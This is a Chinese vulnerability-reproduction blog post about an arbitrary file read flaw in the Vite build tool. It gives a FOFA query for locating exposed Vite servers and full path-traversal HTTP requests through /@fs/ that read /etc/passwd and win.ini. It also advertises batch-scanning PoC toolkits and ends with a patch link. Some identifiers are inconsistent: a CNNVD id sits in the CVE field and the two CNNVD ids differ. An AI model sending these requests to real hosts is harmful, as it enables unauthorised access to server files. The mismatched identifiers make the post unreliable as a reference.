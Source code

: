 #  Vite vite-project接口存在任意文件读取漏洞CNNVD-202504-684 附POC   
2025-4-10更新  南风漏洞复现文库   2025-04-10 23:27  
  
   
  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Vite 简介  
  
微信公众号搜索：南风漏洞复现文库  
  
该文章 南风漏洞复现文库 公众号首发  
  
Vite框架  
## 2.漏洞描述  
  
Vite是Vite开源的一种新型的前端构建工具。Vite vite-project接口存在任意文件读取漏洞。  
  
CVE编号:CNNVD-202504-684  
  
CNNVD编号:CNNVD-202503-2801  
  
CNVD编号:  
## 3.影响版本  
  
Vite框架  
  
![Vite vite-project接口存在任意文件读取漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFkTtJVthoufUj8bpPicZjjdNIh6ciamSHkZRBZTkJdR2WsVuSXIbr7Zlw/640?wx_fmt=png&from=appmsg "null")  
  
Vite vite-project接口存在任意文件读取漏洞  
## 4.fofa查询语句  
  
body="/@vite/client"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/@fs/x/x/x/vite-project/?/../../../../../etc/passwd?import&?inline=1.wasm?init  
  
漏洞数据包：  
  
linux下：  
```
GET /@fs/x/x/x/vite-project/?/../../../../../etc/passwd?import&?inline=1.wasm?init HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFX93PqZkMELlmMNFtoKdx5QXVDlA5MLl52owpS3A1zzwwpjs0TibNCtQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
window下：  
```
GET /@fs/x/x/x/vite-project/?/../../../../../C://windows/win.ini?import&?inline=1.wasm?init HTTP/1.1Host: xx.xx.xx.xxUser-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)Accept: */*Connection: Keep-Alive
```  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
  
  
2: 免登录，免费fofa查询。  
  
  
3: 更新其他实用网络安全工具项目。  
  
  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFZibkl9HMHxW2xDcJE76rGO2DD4FuEBresTtyBhFr4HKibOW9mZYCiaXtw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFPe9AYKAVMbic0Ea5FP5s6WxBjtTtFRhuteyUL3TmS3aT9PXb4v8okMw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFPhnX44uplFRfX0aSGgiavvRzIoJxrrRMtbnQwkFsNibh6Gu0vthiam4CA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFibfyGxEmc3RMhSM0Fnqeslsicwlqydf3VD6VaEYoEawPmIlRp2oXePAg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YzicuY7icMgJr7rChLOozgKFqtUkTIibIuodGZXoUXLkVWar24PnhBT5icibKmCn831enlylYmla6aiacg/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
官方补丁：hhttps://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x  
## 8.往期回顾  
  
  
   
  
  
  
